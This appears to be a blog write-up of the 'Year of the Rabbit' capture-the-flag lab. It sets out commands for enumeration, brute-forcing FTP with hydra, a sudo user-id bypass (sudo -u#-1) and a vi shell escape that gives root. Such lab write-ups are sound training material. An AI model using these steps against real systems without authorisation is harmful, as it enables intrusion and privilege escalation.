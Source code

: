 ```yaml
---
layout: post
permalink: /posts/thm/year-of-the-rabbit
title: "Year of the Rabbit"
---
```


Let's start our enumeration with nmap.

```
nmap -sC -sV <TARGET-IP>
```

![nmap](/assets/images/thm/year-of-the-rabbit/nmap.png)

We can see that there are open ports 21 ftp, 22 ssh and 80 http. Let's try to find any hidden directories with gobuster.

```
gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

While we are waiting for gobuster result, we can visit the web server.

![website](/assets/images/thm/year-of-the-rabbit/website.png)

It's just the Apache default page. Gobuster has finished the scan and here is the result.

![gobuster](/assets/images/thm/year-of-the-rabbit/gobuster.png)

Let's visit the `assets` directory.

![assets](/assets/images/thm/year-of-the-rabbit/assets.png)

Looking through the css file we have found another hidden directory.

![css](/assets/images/thm/year-of-the-rabbit/css.png)

Once we visit this page a pop up appears that told us to turn off the java script and it redirects us to an youtube video. We can download th source code with the following command:

```
wget http://<TARGET-IP>/sup3r_s3cr3t_fl4g.php
```

I fired up the Burp Suite and I visited /sup3r_s3cr3t_fl4g.php again. Capturing the request with burp we have found something interesting.

![burp-hidden](/assets/images/thm/year-of-the-rabbit/burp-hidden.png) 

Let's visit this hidden directory.

![hidden-directory](/assets/images/thm/year-of-the-rabbit/hidden-directory.png)

The directory contains an image.

![image](/assets/images/thm/year-of-the-rabbit/image.png)

Download the image, probably there is something hidden in it.

```
strings Hot_Babe.png
```

The command above shows us some hidden information.

![strings](/assets/images/thm/year-of-the-rabbit/strings.png)

Now we know the username for FTP. Copy all the found passwords and create a new file. Once this is done we can use hydra to brute force the FTP.

```
hydra -l ftpuser -P passwords ftp://<TARGET-IP>

![hydra](/assets/images/thm/year-of-the-rabbit/hydra.png)

Now we have the credentials for FTP. Let's login.

```
ftp <TARGET-IP>
```

![ftp](/assets/images/thm/year-of-the-rabbit/ftp.png)

We can download files from FTP with `get` command

```
get <FILE-NAME>
```

Open the file.

![brain-fuck](/assets/images/thm/year-of-the-rabbit/brain-fuck.png)

Wow... it's something bizarre, right? It's a `Brainfuck` an esoteric programming language created in 1993 by Urban Müller. We can use this `https://www.dcode.fr/brainfuck-language` site to decode it.

![decode](/assets/images/thm/year-of-the-rabbit/decode.png)

Now we have SSH credentials, let's login.

![ssh](/assets/images/thm/year-of-the-rabbit/ssh.png)

Hmm... we are greeted with a clue. We are not able to do almost anything with the current user, let's find this hidden message.

```
locate s3cr3t
```

Once we know where is the secret we can read it.

![secret](/assets/images/thm/year-of-the-rabbit/secret.png)

Switch to the gwendoline account.

```
su gwendoline
```

Now we are able to view the first flag. To find the root's flag we need to escalate our privileges. Let's check whether gwendoline is able to run any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/year-of-the-rabbit/sudo-l.png)

We are able to run `/usr/bin/vi /home/gwendoline/user.txt` as all users except root. After some research I have found the following exploit `https://www.exploit-db.com/exploits/47502`. Basically, this flaw allows us to run a command as root by specifying the target user using the numeric id of -1.

```
 sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Based on `https://gtfobins.github.io/gtfobins/vi/` once it opens the vi editor execute the following command.

```
:!/bin/sh
```

![bin-sh](/assets/images/thm/year-of-the-rabbit/bin-sh.png)

It'll open a root shell.

![root](/assets/images/thm/year-of-the-rabbit/root.png)

Now we are able to read the root's flag.